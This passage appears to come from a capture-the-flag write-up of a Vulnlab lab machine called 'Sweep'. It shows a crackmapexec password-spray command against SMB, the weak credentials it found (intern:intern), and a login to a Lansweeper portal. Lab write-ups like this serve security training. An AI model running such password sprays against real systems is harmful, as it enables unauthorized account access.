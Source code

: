 Since we had a user list and couldn’t brute-force the accounts due to the risk of account lockouts, we attempted a password spray attack using the format `username:username` with `crackmapexec`.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sweep]
└─$ crackmapexec smb sweep.vl -u users.txt -p users.txt --no-bruteforce --continue-on-success
```

<img src="attachments/f871b3eb6bb4c580d67154f39b13a051.png" />

We successfully discovered the credentials for the user `intern`:

```
intern:intern
```

Using the credentials, we were able to log in to the Lansweeper portal running on port 82:

<img src="attachments/7ac8e96ab7eba0b38cddf45d539f7a5a.png" />
